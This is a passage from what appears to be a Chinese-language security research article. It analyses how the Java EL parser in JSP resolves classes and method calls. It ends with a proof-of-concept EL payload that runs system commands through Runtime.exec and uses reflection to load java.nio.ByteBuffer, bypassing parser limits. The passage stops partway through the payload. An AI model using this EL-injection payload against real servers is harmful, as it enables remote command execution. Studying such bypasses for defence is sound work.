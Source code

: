 - `java.lang`
- `javax.servlet`
- `javax.servlet.http`
- `javax.servlet.jsp`

*ImportHandler#resolveClass*

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-46c000c9d095bb61fdf28d0d9abc087bb0de2e57.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-46c000c9d095bb61fdf28d0d9abc087bb0de2e57.png)

`java.nio.ByteBuffer.allocate(100)`不生效的问题找到原因了，因为el的类加载机制并没有`java.nio`包，并且还不支持全类名输入。

看到这里可能小伙伴会好奇：EL解析时将字符串按`.`进行了分割，如果认为每一个`.`分割的字符串都是一个新类并以此解析类名的话，那类的方法不就无法被正常解析嘛？如下面的例子：

`Runtime.getRuntime.exec("calc")`

按照EL表达式的解析，这个字符串会被解析成这样：

```java
0 - Runtime
1 - getRuntime
2 -
  null
3 - exec
4 - 
  0 - "calc"
```

EL解析时肯定会找不到`getRuntime`和`exec`的类的。那EL解析时是如何认为这俩是一个方法的呢？

答案在一开始的`AstValue#getValue`中。如下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1e45eb0e29f5334528af9bb3f9f8a9b3bca03b96.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-1e45eb0e29f5334528af9bb3f9f8a9b3bca03b96.png)

- `1` - 在一开头就将第0个解析字符串，即`Runtime`丢去解析类（注意这里有很多重递归）
- `2`和`3` - 循环所有其他索引从1开始的节点。并对之进行`invoke()`操作

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b39115fa8be4ac7c5ca7becf12de450909db80d8.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b39115fa8be4ac7c5ca7becf12de450909db80d8.png)

这就是EL解析类及调用类方法的大致过程。

实例化ByteBuffer类的Bypass
=====================

既然不能直接使用`java.nio`包下的`ByteBuffer`。那我们用反射搓一个出来不久可了嘛？

修改Poc如下:

```jsp
//执行系统命令
${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("cmd /c ipconfig".getInputStream())}
//停一秒，等待Runtime的缓冲区全部写入完毕
${Thread.sleep(1000)}
//读取Runtime inputStream所有的数据
${pageContext.setAttribute("inputStreamAvailable", inputStream.available())}

//通过反射实例化ByteBuffer，并设置heapByteBuffer的大小为Runtime数据的大小
${pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"))}
${pageContext.setAttribute("allocateMethod", byteBufferClass.getMethod("allocate", Integer.TYPE))}
${pageContext.setAttribute("heapByteBuffer", allocateMethod.invoke(null, inputStreamAvailable))}
```
